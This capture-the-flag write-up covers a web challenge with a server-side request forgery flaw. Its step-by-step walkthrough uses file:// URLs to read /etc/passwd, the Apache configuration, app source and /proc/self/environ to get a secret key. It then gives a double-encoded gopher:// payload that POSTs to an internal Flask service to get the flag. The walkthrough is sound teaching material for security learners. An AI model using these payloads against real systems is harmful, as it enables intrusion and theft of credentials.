









## Description

We remade our club organization website. Check it out.

## Solution

let's visit the website :



there is nothing interesting there, if we check the source html of the page, we find this link to a `javascript` file :



when we click on it we get this js code :

```js
function myFunc(eventObj) {
    var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function () {
      if (this.readyState == 4 && this.status == 200) {
        document.getElementById("content").innerHTML = xhttp.responseText;
      }
    };
    xhttp.open("POST", '/request');
    xhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhttp.send("service=" + this.attributes.link.value);

  }

  var dep = document.getElementsByClassName('department');
  for (var i = 0; i < dep.length; i++) {
    dep[i].addEventListener('click', myFunc);
  }
```

so there is an endpoint `/request` that accepts a POST request with the parameter `service` that takes the value of a URL.

let's request that endpoint on burpsuite :



interesting, we might have an SSRF here, but before that let's try something else.

since this will accept any link, why we don't try to grab local files using `file://` which is a URI (Uniform Resource Identifier) scheme that is used to indicate that the referenced resource is a local file.

let's try to read the `/etc/passwd` file :



we got the content of the file, great, now let's check some sensitive stuff.

we know that this server is running `apache2`, the common path to the apache configuration is `/etc/apache2/sites-enabled/000-default.conf`, let's try to read that :



we got the paths to some internal apps!

the interesting one is `secret-service`, which is located in `/var/www/secret-service/`, making and educated guess, we try to read the source code of that app in `/var/www/secret-service/app.py` :



and we got it, let's place it here for better visibility :

```python
from flask import Flask, render_template, request, jsonify
import os
from dotenv import load_dotenv

app = Flask(__name__)

load_dotenv()
SECRET_KEY = os.getenv('SECRET_KEY')

flag = os.popen("/flag").read()

@app.route("/flag", methods=["POST"])
def flag():
    try:
        data = request.get_json()
        secret = data.get('secret')
        if secret == SECRET_KEY:
            flag = os.popen("/flag").read()
            return jsonify({'success': True, 'flag': flag})
        else:
            return jsonify({'success': False, 'error': 'Invalid secret'})
    except Exception as e:
        return jsonify({'success': False, 'error': "Something Went wrong"})


@app.route("/flag", methods=["GET"])
def test():
    return "you can test your GET payloads here"


if __name__ == "__main__":
    app.run(port=5000)
```

(before continuing, you may ask why we don't just read the flag since it's placed in that app's web root dir, i tried that but it didn't work cause probably the file is owned by root and www-data has no read permission on it.)

okey that's interesting, so this app has an endpoint `/flag`, if we send a POST request to that endpoint, it will check for the post data that has to be in json, the data should contain a key named `secret` with it's value that is placed in the `SECRET_KEY` environment variable, if all goes well we get the flag.

we have 2 problems, let's start with the first.

the first problem is we don't have the KEY, but since it's in an environment variable, we can check the `/proc/self/environ` file which holds the environment variables of our process :



we got the key.

the last problem is how are we gonna send a POST request from this parameter, we need to find a way to send this request :

```
POST /flag HTTP/1.1
Content-Type: application/json
Content-Length: 46

{"secret":"b7bb70a3b3c95f570a8d31ece41bf7c5"}
```

this meets all the endpoint's conditions to give us the flag but the problem is sending it.

this is where `gopher` comes in play, we can actually send http requests and specially `http POST requests` using the `gopher://` protocol, you can learn more about how to use this technique [here](https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630).

so following the blog, if we want to send the request we mentioned earlier, we would send something like this using gopher :

```
gopher://127.0.0.1:5000/_POST%20%2Fflag%20HTTP%2F1.1%0AContent-Type%3A%20application%2Fjson%0AContent-Length%3A%2046%0A%0A%7B%22secret%22%3A%22b7bb70a3b3c95f570a8d31ece41bf7c5%22%7D%0A
```

let's URL decode that to easily read it :

```
gopher://127.0.0.1:5000/_POST /flag HTTP/1.1
Content-Type: application/json
Content-Length: 46

{"secret":"b7bb70a3b3c95f570a8d31ece41bf7c5"}
```

we see that we met all the conditions, but when we send it we get this error :



hmm, may be this is caused by encoding, to play safe , let's also encode the `%` characters that are responsible for URL encoding, so we replace all occurrence of `%` to `%25`, and the URL becomes :

```
gopher://127.0.0.1:5000/_POST%2520%252Fflag%2520HTTP%252F1.1%250AContent-Type%253A%2520application%252Fjson%250AContent-Length%253A%252046%250A%250A%257B%2522secret%2522%253A%2522b7bb70a3b3c95f570a8d31ece41bf7c5%2522%257D%250A
```

let's send that :



- flag: `shellmates{go_go_go_GoOOOPHER}`
